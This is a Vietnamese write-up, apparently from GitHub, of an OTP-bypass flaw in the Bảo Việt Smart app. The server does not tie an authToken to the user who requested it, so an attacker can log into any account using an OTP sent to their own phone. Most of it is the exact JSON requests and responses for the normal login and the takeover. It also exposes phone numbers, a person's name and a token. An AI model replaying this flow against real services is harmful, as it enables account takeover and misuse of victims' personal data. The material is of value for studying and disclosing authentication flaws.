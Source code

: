 # Phân tích bug bypass otp của app Bảo Việt Smart

- Số điện thoại attacker: `0379992123`, mã pin của attacker `123456`
- Số điện thoại victime: `0928751597`

1. Quá trình login diễn ra bình thường của app Bảo Việt Smart
- Bước 1:
  - Client gửi request

  ```JSON
  {"pin":"123456","pinType":"PASSWORD","appVersion":"1.0.1","clientId":"8466","lang":"VN","mid":1,"sessionId":"","user":"0928751597","DT":"ANDROID","E":"###865f0fd9130c0e06###00000000-55af-540e-0000-0000130e5dd8","PM":"SM-G975N","OV":"25","PS":"NOT_SAFE","ATS":"20:09:11:11:40:27"}
  ```
  - Server trả về response
  ```JSON
  {"mid":1,"loginType":"3","name":"Le Bat Pham","authToken":"xxxxxxxxxxxx","authCountdown":"180","code":"00","des":"Thành công"}
  ```
- Bước 2: Server sẽ gửi OTP về số điện thoại `0928751597` tương ứng với authToken `xxxxxxxxxxxx` ở trên
- Bước 3: Client gửi request 
  ```JSON
  {"authToken":"xxxxxxxxxxxx","authValue":"yyyyyyyy","appVersion":"1.0.1","clientId":"8466","lang":"VN","mid":2,"sessionId":"","user":"0928751597","DT":"ANDROID","E":"###865f0fd9130c0e06###00000000-55af-540e-0000-0000130e5dd8","PM":"SM-G975N","OV":"25","PS":"NOT_SAFE","ATS":"20:09:11:11:40:27"}
  ```
- Bước 4: Server trả về response
  ```JSON
  {"mid":2,"clientId":"8471","name":"Le Bat Pham","sessionId":"zzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzz","commonKey":"tttttttttttttttttttttttttttttttttttttttttttttt","accessKey":"eyJ0aW1lc3RhbXAiOiIxNTk5ODI1MzE0MjA1IiwidG9rZW4iOiJlYzdkNDVjOC1mMjgxLTRiM2YtYWVjZC0zZWIxOTk0N2FhMGQiLCJzaWduIjoiMXBxc2FVSGNSSkZPaWZLc0k1UGxJd2tKeFdOeGkrZmoxaHRTRDBjeEFQMD0ifQ==","packageCode":"1","sessionExpire":"10","code":"00","des":"Thành công"}
  ```
- Bước 5: Client sử dụng `sessionId` này để authenticate cho các api khác.

> Vậy lỗi nằm ở đâu?

Lỗi nằm ở chỗ khi server kiểm tra OTP tương ứng với `authToken`, server không kiểm tra xem `authToken` đó có thực sự là của user đã request OTP hay không. Dẫn tới việc attacker có thể dùng `authToken` và OTP gửi về số điện thoại attacker để login bất cứ tài khoản nào attacker muốn, quá trình tấn công như sau:

- Bước 1:
  - Attacker gửi request

  ```JSON
  {"pin":"123456","pinType":"PASSWORD","appVersion":"1.0.1","clientId":"8466","lang":"VN","mid":1,"sessionId":"","user":"0379992123","DT":"ANDROID","E":"###865f0fd9130c0e06###00000000-55af-540e-0000-0000130e5dd8","PM":"SM-G975N","OV":"25","PS":"NOT_SAFE","ATS":"20:09:11:11:40:27"}
  ```
  - Server trả về response
  ```JSON
  {"mid":1,"loginType":"3","name":"VO VAN MINH","authToken":"iiiiiiiiiiii","authCountdown":"180","code":"00","des":"Thành công"}
  ```
- Bước 2: Server gửi OTP về số điện thoại của attacker `0379992123` tương ứng với authToken `iiiiiiiiiiii`
- Bước 3: Attacker gửi request
  ```JSON
  {"authToken":"iiiiiiiiiiii","authValue":"jjjjjjjj","appVersion":"1.0.1","clientId":"8466","lang":"VN","mid":2,"sessionId":"","user":"0928751597","DT":"ANDROID","E":"###865f0fd9130c0e06###00000000-55af-540e-0000-0000130e5dd8","PM":"SM-G975N","OV":"25","PS":"NOT_SAFE","ATS":"20:09:11:11:40:27"}
  ```
  trong đó `jjjjjjjj` chính là OTP mà attacker đã nhận được về số điện thoại của mình.
- Bước 4: Server trả về response
  ```JSON
  {"mid":2,"clientId":"8471","name":"Le Bat Pham","sessionId":"zzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzz","commonKey":"tttttttttttttttttttttttttttttttttttttttttttttt","accessKey":"eyJ0aW1lc3RhbXAiOiIxNTk5ODI1MzE0MjA1IiwidG9rZW4iOiJlYzdkNDVjOC1mMjgxLTRiM2YtYWVjZC0zZWIxOTk0N2FhMGQiLCJzaWduIjoiMXBxc2FVSGNSSkZPaWZLc0k1UGxJd2tKeFdOeGkrZmoxaHRTRDBjeEFQMD0ifQ==","packageCode":"1","sessionExpire":"10","code":"00","des":"Thành công"}
  ```
  đến đây attacker đã login thành công vào tài khoản `0928751597`
- Bước 5: Attacker sử dụng `sessionId` ở trên làm gì tùy thích 😂😂😂